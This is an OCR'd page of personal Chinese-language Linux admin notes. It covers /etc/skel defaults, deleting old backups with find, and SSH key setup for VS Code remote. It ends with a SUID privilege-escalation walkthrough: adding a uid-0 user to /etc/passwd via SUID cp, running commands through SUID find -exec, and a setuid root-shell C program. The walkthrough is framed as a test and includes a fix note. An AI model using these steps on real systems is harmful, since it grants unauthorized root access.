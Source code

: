 13. `/usr/sbin/useradd -D` 能看到SKEL= ,意思是系统会将 /etc/skel 目录中的内容(可以看作模板)复制到用户的HOME 目录. 因此作为管理员可以自定义这些内容

2. 

5. 删除 /data/lscgdj目录下， 10天之前修改过的tar.gz 包
   find /data/lscgdj -name "*-backup-onlywebinf.tar.gz" -a -mtime +9 -exec rm -rf {} \; &>/dev/null
   -atime +1             最后一次访问时间
   -ctime +1             最后一次状态修改时间
   -mtime                最后一次内容修改时间

16. win10环境，使用 vscode remote ssh 远程连接服务器，免密连接

    cmd, ssh-keygen -t rsa,                             生成秘钥
    将win10 上的 用户/user01/.ssh/id_rsa.pub 上传到服务器的 /root/.ssh/  目录下，
        cat id_rsa.pub  >> authorized_keys

    ​    ssh-copy-id -i ~/.ssh/id_rsa.pub root@$i  还是要看这个~

    本来，试讲win10上面的资料mount 挂载到虚拟机 centos7mini 上去的。 现在发现，用远程服务器可以同样实现，大功告成。 不过这样的话，虽然本地资源压力减轻，但是安全性就没了。

9. suid 提权示例，
   1. 比如cp
   find / -type f -perm -u=s 2>/dev/null               搜索具有suid权限的可执行文件，
   chmod u+s /bin/cp                                   root用户给cp一个权限，做测试
   ll /usr/bin/cp

   cp /etc/passwd passwd                               普通用户，开始操作
   openssl passwd -1 -salt l01 123456
   echo 'l01:$1$l01$.a5onqEPLUMqiokxhSrBy.:0:0::/root/:/bin/bash' >>passwd          按照passwd 文件格式来添加一条
   cp passwd  /etc/passwd                               将passwd 复制回去，

   su - l01                                             接下来，就可以切换到新建的用户了， 并且l01用户权限为root， 已提权
   id                                                   能看到uid, gid, uid=0(root) gid=0(root) groups=0(root)
   cat /etc/passwd | tail -1
   同理，awk， sed这类具有写文件权限的命令以suid权限，都可以造成提权
   2. find suid 给find提权后，可以以 exec 参数，以root权限执行任意命令
   chmod u+s /bin/find                                  先给一个权限， 做测试
   find ./ -name "passwd" -exec "id" \;                 find ./ -type f -name "nohup" -exec cp '{}' /etc/passwd \;可执行任一命令
   执行，vim 再打开文件就可以编辑平常不能编辑的文件

   **修复建议： 将cp的 suid去除**
   3. 给vim 授权限后， 一切皆文件，好开始接龙吧
   4. 二进制程序权限滥用特权提升
   cat > sudo.c <<eof
   #include <stdio.h>
   #include <sys/types.h>
   #include <unistd.h>
   int main(void)
   {
       setuid(0);
       system("/bin/bash");
       return 0;
   }
   gcc -o sudo sudo.c      chmod +s sudo
   ./sudo                                                普通用户执行二进制文件， 就可以获取到root权限
